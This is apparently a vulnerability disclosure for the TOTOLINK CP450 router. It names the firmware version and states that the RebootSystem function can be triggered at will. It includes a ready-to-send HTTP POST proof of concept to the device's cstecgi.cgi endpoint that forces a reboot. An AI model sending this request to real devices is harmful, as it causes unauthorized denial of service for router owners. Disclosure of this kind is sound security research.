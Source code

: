 ## CP450 Reboot

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

The function `RebootSystem` of the file `lib/cste_modules/system.so` can reboot the system at will.

![image-20240421163827190](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/adm/settings.asp
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl":"setting/RebootSystem",
}
```

